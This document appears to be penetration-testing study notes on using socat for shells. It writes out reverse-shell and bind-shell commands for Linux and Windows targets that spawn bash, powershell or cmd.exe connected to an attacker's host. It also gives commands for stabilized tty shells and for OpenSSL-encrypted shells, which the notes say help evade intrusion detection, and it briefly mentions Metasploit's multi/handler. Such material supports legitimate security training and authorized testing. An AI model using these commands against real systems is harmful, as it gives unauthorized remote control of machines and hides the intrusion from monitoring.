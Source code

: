 The syntax for a basic reverse shell listener in socat: `socat TCP-L:<PORT> -`. This will work on either Linux or Windows and is equivalent to `nc -lvnp <PORT>`.

On Windows use to connect back: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`. The pipes option is used to force powershell or cmd.exe to use Unix style standard input and output.

The equivalent for Linux target: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`.

#### Socat Bind Shells

On a Linux target: `socat TCP-L:<PORT> EXEC:"bash -li"`.

On a Windows target: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`.

Regardless of the target, we use `socat TCP:<TARGET-IP>:<TARGET-PORT> -` on the attacking machine to connect to the waiting listener.

* For a fully stable Linux tty reverse shell: `socat TCP-L:<PORT> FILE:'tty',raw,echo=0`
* To connect to the listener: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.
  * `EXEC:"bash -li"` creates an interactive bash session with the arguments: pty, stderr, sigint, setsid, and sane.
    * `pty` allocates a pseudo-terminal on the target - part of the stabilization process.
    * `stderr` makes sure that any error messages get shown in the shell (often a problem in non-interactive shells).
    * `sigint` passes any CTRL+C commands through into the sub-process, allowing us to kill commands inside the shell.
    * `setsid` creates the process in a new session.
    * `sane` stabilizes the terminal, attempting to 'normalize' it.

#### Socat Encrypted Shells

Socat is capable of creating encrypted shells - both bind and reverse. Encrypted shells cannot be spied on unless you have the decryption key and are often able to bypass an IDS as a result.

1. Generate a certificate in order to use encrypted shells on our attacking machine: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`. This command creates a 2048 bit RSA key with a matching cert file, self-signed, and valid for just under a year. It will ask to fill information about the certificate and can be let blank, or filled randomly.
2. Now need to merge the two files into a single `.pem` file: `cat shell.key shell.crt > shell.pem`.
3. Set up our reverse shell listener with `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0`. This opens up an OPENSSL listener using the generated certificate and `verify=0` tells the connection to not bother trying to validate our certificate has been properly signed by a recognized authority.
   * The certificate must be used on whichever device is listening.
4. Connect back with `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`.

The same technique would apply for a bind shell.

* Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
* Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0`

### Metasploit -- multi/handler

The `auxiliary/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells.
